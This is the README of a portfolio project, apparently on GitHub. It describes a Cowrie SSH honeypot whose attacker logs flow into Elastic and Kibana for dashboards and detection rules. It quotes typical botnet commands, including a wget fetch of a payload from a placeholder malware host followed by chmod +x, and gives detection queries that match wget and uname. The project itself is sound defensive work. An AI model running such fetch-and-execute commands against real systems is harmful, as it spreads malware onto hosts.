







# Elastic + Cowrie SSH Honeypot

An internet-facing SSH honeypot designed to capture and analyze attacker behavior using **Cowrie** and the **Elastic Stack**.

This project simulates a real-world SOC telemetry pipeline by collecting attacker activity and transforming it into actionable security insights through dashboards and detection rules.

---

## Project Overview

The honeypot collects real attacker activity such as:

- SSH brute-force attempts
- Credential spraying attacks
- Attacker command execution
- Malware download attempts
- Geographic attack origins

All telemetry is ingested into **Elastic Cloud** where it is normalized, enriched, and analyzed through Kibana dashboards.

---

## Architecture


---

## Technologies Used

| Technology | Purpose |
|------------|--------|
Cowrie | SSH/Telnet honeypot
Elastic Cloud | Log storage and SIEM
Elastic Agent | Telemetry ingestion
Kibana | Dashboards and analysis
GeoIP Enrichment | Attacker geolocation
Ubuntu Linux | Honeypot host
UFW Firewall | Network access control

---

## Telemetry Pipeline

1. Attackers connect to the Cowrie SSH honeypot
2. Cowrie records attacker activity in structured JSON logs
3. Elastic Agent ships logs to Elasticsearch
4. Ingest pipelines normalize fields into ECS format
5. GeoIP enrichment adds geographic context
6. Kibana dashboards visualize attacker behavior

---

## Dashboard Example



The dashboard visualizes:

- Attack timeline
- Most targeted usernames
- Most common attacker commands
- Top attacking IP addresses
- Geographic distribution of attacks

---

## Geographic Attack Sources



GeoIP enrichment allows visualization of attack origins by country and ASN.

---

## Attacker Commands



Common commands executed by attackers include:

```
CMD: uname -a
CMD: whoami
CMD: wget http://malware.site/payload
CMD: chmod +x payload
```

These behaviors are typical of automated botnet propagation scripts.

---

## Detection Engineering

Custom detection rules were implemented to identify suspicious activity.



### Malware Download Attempts

```
cowrie.command : "CMD: wget*"
```

---

### SSH Brute Force Activity

```
event.action : "cowrie.login.failed"
```

---

### Reconnaissance Commands

```
cowrie.command : "CMD: uname*"
```

---

These detections simulate the types of alerts generated in a Security Operations Center (SOC).

---

## Security Hardening

To reduce the risk of honeypot escape:

- Cowrie runs under a **non-root user**
- SSH access hardened using **public key authentication**
- Firewall restricts unnecessary ports
- Honeypot isolated on a cloud VPS
- Cowrie emulates commands instead of executing them

---

## Lessons Learned

This project provided hands-on experience with:

- SIEM data pipelines
- Detection rule creation
- Threat telemetry analysis
- Honeypot deployment and containment
- Elastic Stack observability

---

## Future Improvements

Planned improvements include:

- Self-hosted Elastic Stack deployment
- Threat intelligence enrichment
- Automated malware sample analysis
- Additional honeypot services

---

## Author

**Tyler Nagy**

Cybersecurity / SOC Analyst Candidate
